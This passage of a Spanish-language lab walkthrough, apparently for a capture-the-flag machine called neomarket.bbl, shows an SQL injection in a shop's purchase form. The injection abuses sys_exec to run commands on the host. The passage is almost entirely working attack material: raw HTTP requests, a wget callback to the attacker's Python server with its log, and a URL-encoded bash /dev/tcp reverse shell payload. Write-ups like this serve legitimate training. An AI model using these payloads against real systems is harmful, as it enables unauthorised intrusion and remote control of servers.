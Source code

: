 ```
POST /compras.php HTTP/1.1
Host: neomarket.bbl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://neomarket.bbl
Connection: keep-alive
Referer: http://neomarket.bbl/compras.php
Cookie: registros=1; consultas=10; PHPSESSID=8qm6vvk59pvrev49uuam23dfla
Upgrade-Insecure-Requests: 1
Priority: u=0, i

id=1'+OR+1=1+AND+sys_exec('wget+http://<IP>:8000/test')--+-&cantidad=5&buy_articulo=Comprar
```

Una vez que enviemos eso, si nos vamos a nuestro servidor de `python3` veremos lo siguiente:

```
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.1.152 - - [24/Mar/2025 13:32:46] code 404, message File not found
192.168.1.152 - - [24/Mar/2025 13:32:46] "GET /test HTTP/1.1" 404 -
```

Vemos que a funcionado de forma correcta, por lo que ahora vamos a ejecutar una `reverse shell` para obtener acceso a la maquina de la siguiente forma:

```
' OR 1=1 AND sys_exec('bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"')-- -
```

Pero tendremos que codificarlo en `URLCode` quedando de la siguiente forma:

```
%27%20OR%201%3D1%20AND%20sys_exec%28%27bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.146%2F7777%200%3E%261%22%27%29--%20-
```

Ahora dejandolo de la siguiente forma:

```
POST /compras.php HTTP/1.1
Host: neomarket.bbl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://neomarket.bbl
Connection: keep-alive
Referer: http://neomarket.bbl/compras.php
Cookie: registros=1; consultas=10; PHPSESSID=8qm6vvk59pvrev49uuam23dfla
Upgrade-Insecure-Requests: 1
Priority: u=0, i

id=1%27%20OR%201%3D1%20AND%20sys_exec%28%27bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.146%2F7777%200%3E%261%22%27%29--%20-&cantidad=5&buy_articulo=Comprar
```
